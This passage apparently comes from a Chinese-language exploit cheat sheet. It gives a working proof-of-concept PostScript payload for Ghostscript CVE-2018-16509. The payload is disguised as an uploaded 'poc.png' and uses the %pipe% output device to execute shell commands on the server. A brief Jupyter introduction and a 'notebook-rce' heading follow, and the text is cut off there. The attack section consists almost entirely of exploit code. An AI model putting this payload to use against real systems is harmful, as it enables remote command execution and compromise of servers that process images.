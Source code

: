 ![image](img/1.png)

### PostScript

#### Ghostscript

**CVE-2018-16509**

需要上传的poc.png

```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

![image](img/postscript1.png)

## Jupyter

Jupyter Notebook（此前被称为 IPython notebook）是一个交互式笔记本，支持运行 40 多种编程语言。

### notebook-rce
